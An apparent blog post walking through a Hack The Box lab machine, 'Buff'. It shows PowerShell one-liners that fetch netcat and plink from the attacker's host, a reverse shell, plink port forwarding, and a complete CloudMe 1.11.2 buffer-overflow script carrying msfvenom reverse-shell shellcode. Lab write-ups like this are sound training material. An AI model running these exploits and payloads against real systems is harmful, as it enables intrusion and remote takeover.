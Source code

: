 ```yaml
---
title: 'Writeup – Hack The Box Buff'
date: '2020-11-26T13:02:00+00:00'
permalink: /writeup-hack-the-box-buff/
categories:
    - 'Hack the Box'
    - 'Penetration Testing'
tags:
    - buff
    - 'Hack The Box'
    - linux
    - 'Penetration Testing'
    - Pentesting
    - windows
---
```


## Intro

![](/assets/posts/htb_buff/buff_intro.png)

The following post will describe how I hacked the previously retired Buff Box. However, I am not an experienced Pentester, therefore take everything I say with a grain of salt. Now let’s have some fun with this nice Windows Box.

## Setup

First things first, we need to add the IP to /etc/hosts.

![](/assets/posts/htb_buff/buff_hosts.png)

## Recon

As usual, we start by enumerating our target using [nmap](https://nmap.org/). This allows us to identify potential attack vectors.

![](/assets/posts/htb_buff/buff_nmap.png)

We can already confirm that the box uses a Microsoft Windows operating system and runs an [Apache webserver](https://httpd.apache.org/).  
Using an ordinary browser, we are able to view the webpages content. There is not a lot that can be done, but the “Contact” menu at least allows us to identify that the site was build using “Gym Management Software”. When you introduce google with this search term, you already get a lot of vulnerabilities, so that sounds like a good starting point for us.

![](/assets/posts/htb_buff/buff_webpage.png)

## Exploit

Exploit-db has this nice unauthenticated [RCE for Gym Management System 1.0](https://www.exploit-db.com/exploits/48506). After verification of the exploit code (we never run any code we do not understand), we can safely use it to get an initial foothold into the target system.

![](/assets/posts/htb_buff/buff_webexploit.png)

That worked quite well. We are presented with a webshell and the user we have access too seems to be named “shaun”.

![](/assets/posts/htb_buff/buff_webexploit_whoami.png)

Even if the webshell is very limited and does not allow us to change directories, we are still able to access the user.txt file from our current location in order to get the first flag.

![](/assets/posts/htb_buff/buff_webexploit_user_flag.png)

## Getting Root

In order to start our privilege escalation operation, we really need a something better than our webshell. Spawning a shell using python is not possible, since it is not installed on the windows system. However, we can still download something from within the target – namely netcat. So let’s start right away and download nc.exe from your attackers machine. Note that somebody else already uploaded nc, therefore we name our binary nc3.exe

``` bash
powershell -c IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.202:8000/nc.exe','nc3.exe')
```

![](/assets/posts/htb_buff/buff_upload_nc.png)

In order for that to work, we have to start a local listener on our attacker machine.

![](/assets/posts/htb_buff/buff_nc_reverse_shell2.png)

And finally connect to the local listener from your target machine. The remote shell is working and we do not use the limited webshell any longer.

![](/assets/posts/htb_buff/buff_nc_reverse_shell.png)

In order to find a local vulnerability to expoit, I required help from Mr.Google. However, this is what I ended up doing:

Netstat for TCL and ports only listening on localhost are 3306 (MySQL) and 8888 which seems to be connected to service running by a CloudMe.exe.

![](/assets/posts/htb_buff/buff_netstat.png)

We can find the binary in the “shaun’s” Download directory.

![](/assets/posts/htb_buff/buff_cloudme.png)

Exploit-db provides exploits for multiple versions, however it seems like the suffix indicates that it is version 1.11.2.

![](/assets/posts/htb_buff/buff_exploit_db.png)

I went with the simplest one – [CloudMe 1.11.2 – Buffer Overflow (PoC)](https://www.exploit-db.com/exploits/48389). We can see that the code executes “calc.exe” as a Proof of Concept. In our case, we need to modify it to get a shell with the processes privileges. Therefore let’s use [msfvenom ](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/)to generate an alternative payload that spawns a remote shell.

``` python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -p windows/shell_reverse_tcp LPORT=3000 LHOST=10.10.14.202 -f python -v payload
payload =  b""
payload += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
payload += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
payload += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
payload += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
payload += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
payload += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
payload += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
payload += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
payload += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
payload += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
payload += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
payload += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77"
payload += b"\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
payload += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b"
payload += b"\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
payload += b"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a"
payload += b"\x0e\xca\x68\x02\x00\x0b\xb8\x89\xe6\x6a\x10\x56"
payload += b"\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c"
payload += b"\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5"
payload += b"\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
payload += b"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01"
payload += b"\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
payload += b"\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f"
payload += b"\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08"
payload += b"\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
payload += b"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
payload += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target,8888))
    s.send(buf)
except Exception as e:
    print(sys.exc_value)
```

Since we need to execute the payload from the victim machine and there is no python installed, I tried to use pyinstaller.exe on windows to generate a binary from the python code to execute on the target, however, for whatever reason I was not successfully…

As an alternative, we can always perform a remote port forwarding from our target to the attacker machine. Since Windows does not have ssh installed per default, I decided to go with [plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html). It allows port forwarding, it is small and we can upload it in the exact same way as the nc.exe before.

``` bash
powershell -c IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.202:8000/plink.exe','plink3.exe')
```

However, I was not able to get the remote shell to connect. I tried everything, different payload, ports and even applications. I was quite frustrated when I learned that on HTB sometimes the default port (22) simply does not work…

**Pitfall 1:** Do not try to use Port 22 on HTB!

This is the approach that finally worked for me.

Change the default ssh port in “/etc/ssh/sshd\_config” to an alternative one. I used the port “1234”.

![](/assets/posts/htb_buff/buff_remote_port_forwarding.png)

Next, restart the service, in order for the changes to take effect.

``` bash
sudo service ssh restart
```

On the target machine, start the plink application as follows in order to forward port 8888.

``` bash
plink3.exe -l kali -pw kali 10.10.14.202 -R 8888:127.0.0.1:8888 -P 1234
```

![](/assets/posts/htb_buff/buff_remote_port_forwarding2.png)

We can verify that port forwarding is now working, when we check our local sshd ports.

![](/assets/posts/htb_buff/buff_remote_port_forwarding3.png)

When we ran the exploit locally, however, frustration is high, no remote shell… But why?

**Pitfall 2**: The exploit does only work once, then the machine needs to be reset!

After resetting the machine, the exploit worked and we are able to access root.txt.

![](/assets/posts/htb_buff/buff_root_flag.png)

Getting user was fun and I really enjoyed it, however, getting root was not that funny. Both pitfalls cost quite a lot of time to figure out and were not really part of the challenge. Nevertheless, another machine on the list. Bye!